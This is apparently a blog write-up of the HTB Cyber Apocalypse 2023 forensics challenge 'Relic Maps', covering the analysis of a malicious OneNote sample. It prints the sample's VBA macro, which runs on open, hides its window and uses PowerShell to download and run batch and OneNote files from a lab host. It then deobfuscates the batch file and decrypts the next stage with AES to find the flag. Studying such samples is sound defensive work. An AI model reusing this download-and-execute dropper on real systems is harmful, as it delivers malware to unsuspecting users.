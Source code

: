 ```yaml
---
layout: post
title:  "HTB Cyber Apocalypse 2023 - (Forensics) Relic Maps"
date:   2023-03-23 15:00:05 +0300
categories: HTB_Cyber_Apocalypse_2023 CTF forensics 
summary: Writeup for the Relic Maps (Forensics, Medium) from HTB Cyber Apocalypse 2023. This challenge involved deobfuscating some batch scripting and some powershell. 
---
```



'Relic Maps' was one of the challenges in the 'Forensics' category at HTB's Cyber Apocalypse 2023. Its difficulty was "Medium".  
The challenge had a malware-like sample that had obfuscated batch script (.bat) code.

### Challenge description

We got a docker container running a web app and a reference to 'http://relicmaps.htb:/relicmaps.one'.  
relicmaps.htb can be replaced with the IP address of the container.  

### Entry point

We download the relicmaps.one and look at it by using 'strings'.
The only large string in there 

![Using strings]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/strings.png){: .center-image}

There we see some VBA code that downloads another two files (topsecret-maps.one and window.bat)

{% highlight vba %}
Function WmiExec(cmdLine )
    Dim objConfig
    Dim objProcess
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL )
    Dim procId
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
            ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
window.resizeTo 0,0
{% endhighlight %}

topsecret-maps.one is not very interesting.  
However, window.bat seems to have some obfuscated code

The main things from window.bat are:
- A lot of substitutions being defined
- At the end of the file, the obfuscated code
- Somewhere in the middle, there's a comment containing a very long line (this will be relevant later)

### Deobfuscating the code

First, let's use those substitutions and deobfuscate the code.  
For this, I wrote a simple powershell script:

{% highlight python %}
def main():
        f = open('substitution.txt', 'r')
        substitutions = {}

        for line in f:
                line = line.strip()
                line = line[1:-1]

                fragments = line.split('=',1)
                substitutions[fragments[0]] = fragments[1]
        f.close()

        f = open('target_string.txt', 'r')

        for line in f:
                line = line.strip()
                for key in substitutions:
                        line = line.replace(key, substitutions[key])
                line = line.replace('%%', '')
                print(line)

        f.close()


if __name__=='__main__':
        main()
{% endhighlight %}

In substitutions.txt, I have a list of strings that look like this:
{% highlight bash %}
"ualBOGvshk=ws"
"PxzdwcSExs= /"
"ndjtYQuanY=po"
{% endhighlight %}

Those are taken right from the window.bat file.

![Deobfuscating bat code]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/deobfuscating_bat.png){: .center-image}

After running that script, we can see that the payload is a powershell one-liner (a long one).

### Decrypting the payload

The powershell payload will look for that long comment in the middle of the .bat file, and then it will decrypt it using AES.  
We can obtain the IV and Key for AES by looking at that powershell line:
- IV = 2hn/J717js1MwdbbqMn7Lw==
- Key = 0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=

And we can use CyberChef to decrypt the next stage of this 'malware'
![Decrypting the payload]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/decrypting.png){: .center-image}

### Finding the flag

I used the 'magic' module from CyberChef

![Using 'magic']({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/magic.png){: .center-image}

It seems like the payload is a zipped file, so we'll use the 'Gunzip' module on the decrypted output.

![Unzipping]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/gunzip.png){: .center-image}

After using gunzip, we get a valid Windows binary (the MZ-PE characters can be easily seen)

![Looking for strings]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/looking_for_strings.png){: .center-image}

I looked through the output and noticed some strings that might lead to the flag.  
Since they're unicode, I used the 'Remove null bytes' operation to make them more readable.

![Finding the flag]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/relic_maps/relicmaps_flag.png){: .center-image}

And among those strings, I found the flag for this challenge.